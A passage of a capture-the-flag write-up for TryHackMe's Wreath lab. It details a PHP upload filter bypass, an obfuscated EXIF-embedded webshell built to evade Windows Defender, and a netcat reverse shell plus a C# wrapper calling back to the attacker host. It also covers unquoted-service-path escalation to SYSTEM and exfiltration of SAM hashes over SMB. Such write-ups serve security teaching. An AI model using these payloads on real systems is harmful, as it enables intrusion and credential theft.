                <link rel="stylesheet" type="text/css" href="assets/css/Andika.css">
                <link rel="stylesheet" type="text/css" href="assets/css/styles.css">
        </head>
        <body>
                <main>
                        <h1>Welcome Thomas!</h1>
                        <h2>Ruby Image Upload Page</h2>
                        <form method="post" enctype="multipart/form-data">
                                <input type="file" name="file" id="fileEntry" required, accept="image/jpeg,image/png,image/gif">
                                <input type="submit" name="upload" id="fileSubmit" value="Upload">
                        </form>
                        <p id=res><?php if (isset($res)){ echo $res; };?></p>
                </main>
        </body>
</html>
```

Interesting part is the filters here
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

This line has `getimagesize` method that checks if image has dimensions - returns `False` if file is not an image
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
```

This line checks for two conditions, if either fails, we get error message.
- Second condition checks if the file is not an image
- First condition split string by `.` into an array and checks second item
  - `image.jpeg` returns `["image", "jpeg"]`
  - But `image.jpeg.php` returns `["image","jpeg","php"]` and `jpeg` gets passed into the filter
  - This filter then checks if it is not in the array of `$goodExts`

After two conditions pass, the file gets moved into `uploads/` directory with original name
```php
$target = "uploads/".basename($_FILES["file"]["name"]);
```

We also find a folder `/resources` which may be a directory on the web to check out

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls
commit-meta.txt  css  favicon.png  fonts  img  index.html  js  resources
```

_____________________________________

### Visit `/resources` endpoint

we can visit `http://10.200.85.100/resources` where we are greeted with a login prompt

![login prompt](./resources.png)

Try Thomas' hash that we cracked earlier

User: Thomas
Password: i<3ruby

.. And we're in

Upload a normal jpg file and access it through `/resources/uploads/FILE.jpg`

Upload success
![upload success](./uploadsuccess.png)

And we see our image
![upload access](./uploadaccess.png)

Now to upload an exploit to get webshell. We need to bypass the two filters
1. The file extension can be bypassed with `.jpeg.php`
2. The image size will require an actual image with shell injected in the exifdata, specifically the `Comment` field
   
Take a regular image and rename it with `.jpeg.php` extension

Run `exiftool` on the image
```
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php 
ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:30:57-04:00
File Access Date/Time           : 2021:04:23 09:30:57-04:00
File Inode Change Date/Time     : 2021:04:23 09:30:57-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 750
Image Height                    : 750
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x750
Megapixels                      : 0.562
```

There is also AV installed on this target. It may detect any default PHP webshell uploaded and alert the victim. The first step then is to create a proof of concept before we can work out an AV bypass.

Harmess PHP payload - `<?php echo "<pre>Test Payload</pre>"; die();?>` 

We add this to the image with exiftool
```
kali@kali:~/thm/wreath$ exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-Neozer0.jpeg.php
    1 image files updated
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:35:37-04:00
File Access Date/Time           : 2021:04:23 09:35:37-04:00
File Inode Change Date/Time     : 2021:04:23 09:35:37-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php echo "<pre>Test Payload</pre>"; die(); ?>
Image Width                     : 750
Image Height                    : 750
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x750
Megapixels                      : 0.562
```

Now we upload this benign payload and access it on the browser to see that the test payload has worked and we are able to execute PHP code on the system!

![upload poc](./uploadpoc.png)

_____________________________________

### Exploit with AV Evasion 

Given that we know the AV used on the PC is Windows Defender (preinstalled with Windows Server):
  - We build payload in a slightly less common way
  - We obfuscate manually or using a tool online

Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

This payload:
- Checks if `GET` parameter called `wreath` has been set
- If set, `shell_exec()` executes (lives in `<pre>` tag for clean output)
- Use `die()` to prevent rest of garble text from image showing up

This is slighly longer than the standard `<?php system($_GET["cmd"]);?>` because
- Obfuscating will become one liner anyway
- Being different is good for AV evasion

With the payload, we now obfuscate it by:
- Switch parts of exploit around so they are in unusual order
- Encoding all the strings
- Splitting up distinctive parts of the code (eg. `shell_exec($_GET[...])`)

Here we use online [php obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) with all obfuscation options set and we get:
```php
<?php $v0=$_GET[base64_decode('d3JlYXRo')];if(isset($v0)){echo base64_decode('PHByZT4=').shell_exec($v0).base64_decode('PC9wcmU+');}die();?>
```

The payload will need some escaping because `$` will be interpreted as bash variables

`<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>`

Make a new copy of the image and inject our new payload
```
kali@kali:~/thm/wreath$ cp ~/Downloads/corg.jpg ./shell-Neozer0.jpeg.php
kali@kali:~/thm/wreath$ exiftool -Comment="<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>" shell-Neozer0.jpeg.php 
    1 image files updated
kali@kali:~/thm/wreath$ exiftool shell-Neozer0.jpeg.php
ExifTool Version Number         : 12.16
File Name                       : shell-Neozer0.jpeg.php
Directory                       : .
File Size                       : 46 KiB
File Modification Date/Time     : 2021:04:24 08:24:07-04:00
File Access Date/Time           : 2021:04:24 08:24:07-04:00
File Inode Change Date/Time     : 2021:04:24 08:24:07-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php $v0=$_GET[base64_decode('d3JlYXRo')];if(isset($v0)){echo base64_decode('PHByZT4=').shell_exec($v0).base64_decode('PC9wcmU+');}die();?>
Image Width                     : 750
Image Height                    : 750
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x750
Megapixels                      : 0.562
```

Visiting the page we get

![upload success](phpshell.png)

We can execute command with param `wreath` by visiting: `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=systeminfo`

![run systeminfo](phpshellsysinfo.png)

_____________________________________

### Reverse shell

We upload the `nc.exe` to the `c:\windows\temp\` directory

1. Start http server and 
```
kali@kali:~/code/nc.exe$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.85.100 - - [24/Apr/2021 08:50:59] "GET /nc.exe HTTP/1.1" 200 -

```

2. Run curl command on webshell `curl http://10.50.86.79/nc64.exe -o c:\\windows\\temp\\nc-Neozer0.exe`

![curl nc](curlnc.png)

3. Set up netcat listener
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...

```

4. Run command to start reverse shell - `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-Neozer0.exe%2010.50.86.79%2049999%20-e%20cmd.exe`

![nc reverse shell](ncreverseshell.png)

5. Back on netcat listener we get a shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50050
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>

```

_____________________________________

### Privilege enumeration

Check current privileges
```
C:\xampp\htdocs\resources\uploads>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

```
C:\xampp\htdocs\resources\uploads>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 
```

```
C:\xampp\htdocs\resources\uploads>wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
DisplayName                                                                         Name                                      PathName                                                                                    StartMode  
Amazon SSM Agent                                                                    AmazonSSMAgent                            "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                          Auto       
Apache2.4                                                                           Apache2.4                                 "C:\xampp\apache\bin\httpd.exe" -k runservice                                               Auto       
AWS Lite Guest Agent                                                                AWSLiteAgent                              "C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                            Auto       
LSM                                                                                 LSM                                                                                                                                   Unknown    
Mozilla Maintenance Service                                                         MozillaMaintenance                        "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                 Manual     
NetSetupSvc                                                                         NetSetupSvc                                                                                                                           Unknown    
Windows Defender Advanced Threat Protection Service                                 Sense                                     "C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                  Manual     
System Explorer Service                                                             SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe  Auto       
Windows Defender Antivirus Network Inspection Service                               WdNisSvc                                  "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2011.6-0\NisSrv.exe"               Manual     
Windows Defender Antivirus Service                                                  WinDefend                                 "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2011.6-0\MsMpEng.exe"              Auto       
Windows Media Player Network Sharing Service                                        WMPNetworkSvc                             "C:\Program Files\Windows Media Player\wmpnetwk.exe"                                        Manual     

```

```
C:\xampp\htdocs\resources\uploads>sc qc SystemExplorerHelpService
sc qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```
C:\xampp\htdocs\resources\uploads>powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         BUILTIN\Users Allow  -1610612736
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -1610612736
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  -1610612736
Audit  : 
Sddl   : O:BAG:S-1-5-21-3963238053-2357614183-4023578609-513D:AI(A;OICI;FA;;;BU)(A;ID;FA;;;S-1-5-80-956008885-341852264
         9-1831038044-1853292631-2271478464)(A;CIIOID;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-22714784
         64)(A;ID;FA;;;SY)(A;OICIIOID;GA;;;SY)(A;ID;FA;;;BA)(A;OICIIOID;GA;;;BA)(A;ID;0x1200a9;;;BU)(A;OICIIOID;GXGR;;;
         BU)(A;OICIIOID;GA;;;CO)(A;ID;0x1200a9;;;AC)(A;OICIIOID;GXGR;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)(A;OICIIOID;GXGR;
         ;;S-1-15-2-2)
```

Two findings:

- We have privilege that could be used to escalate to system permissions. However, we need to obfuscate the exploit to get past Defender; or
- We have unquoted service path vulnerability for a service running as the system account - `SystemExplorerHelpService`

_____________________________________

### Privilege escalation

Create exploit

```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
                Process proc = new Process();
                ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-Neozer0.exe", "10.50.86.79 49999 -e cmd.exe");
                procInfo.CreateNoWindow = true;
                proc.StartInfo = procInfo;
                proc.Start();
        }
    }
}
```

Now we compile the program with Mono `mcs` compiler

```
kali@kali:~/thm/wreath$ mcs Wrapper.cs 
kali@kali:~/thm/wreath$ ls Wrapper*
Wrapper.cs  Wrapper.exe
kali@kali:~/thm/wreath$ file Wrapper.exe 
Wrapper.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

We upload executable using Impacket

Start smb server on our IP serving a share called `share` in current directory. This is also using SMBv2 for relatively up to date targets
```
kali@kali:~/thm/wreath$ sudo python3 ~/code/impacket/examples/smbserver.py share . -smb2support -username user -password hellotheretaco
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

In the reverse shell we run
- `net use \\10.50.86.79\share /USER:user hellotheretaco`

```
C:\xampp\htdocs\resources\uploads>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\xampp\htdocs\resources\uploads>copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
        1 file(s) copied.
```

We now start another listener and execute to see if exploit works
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
```

```
C:\xampp\htdocs\resources\uploads>"%TEMP%\wrapper-Neozer0.exe"
"%TEMP%\wrapper-Neozer0.exe"
```

We get a reverse shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50512
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>
```

Copy over file to `Program.exe`

`copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"`

```
C:\xampp\htdocs\resources\uploads>copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
        1 file(s) copied.

C:\xampp\htdocs\resources\uploads>dir "C:\Program Files (x86)\System Explorer\"
dir "C:\Program Files (x86)\System Explorer\"
 Volume in drive C has no label.
 Volume Serial Number is A041-2802

 Directory of C:\Program Files (x86)\System Explorer

25/04/2021  08:58    <DIR>          .
25/04/2021  08:58    <DIR>          ..
22/12/2020  00:55    <DIR>          System Explorer
25/04/2021  08:00             3,584 System.exe
               1 File(s)          3,584 bytes
               3 Dir(s)   6,967,848,960 bytes free
```

Restart service

Stop - `sc stop SystemExplorerHelpService`

Start - `sc start SystemExplorerHelpService`

```
C:\xampp\htdocs\resources\uploads>sc stop SystemExplorerHelpService
sc stop SystemExplorerHelpService

SERVICE_NAME: SystemExplorerHelpService 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x1388

C:\xampp\htdocs\resources\uploads>sc start SystemExplorerHelpService
sc start SystemExplorerHelpService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

And we check on our listener with `root`
``` 
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50544
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

_____________________________________

### Exfiltration & Post Exploitation

Exfiltrate hashes

```

C:\Windows\system32>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\Windows\system32>reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
The operation completed successfully.

C:\Windows\system32>reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak 
reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak
The operation completed successfully.

```

Use `Impacket`
```
kali@kali:~/thm/wreath$ ls sam* system*
sam.bak  system.bak

kali@kali:~/thm/wreath$ python3 ~/code/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:********************************:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:********************************:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:********************************:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:********************************:::
[*] Cleaning up... 
```

_____________________________________

### Clean up

- delete c:\windows\temp\nc-Neozer0.exe
- delete resources/uploads/shell-Neozer0.jpeg.php
- stop sharing service `net use \\ATTACKER_IP\share /del`
- `del "C:\Program Files (x86)\System Explorer\System.exe"`
- `sc start SystemExplorerHelpService`

</details>

## References

CVE-2019-15107: https://www.cvedetails.com/cve/CVE-2019-15107/

Webserver exploit: https://github.com/MuirlandOracle/CVE-2019-15107

Gitstack: https://www.exploit-db.com/exploits/43777
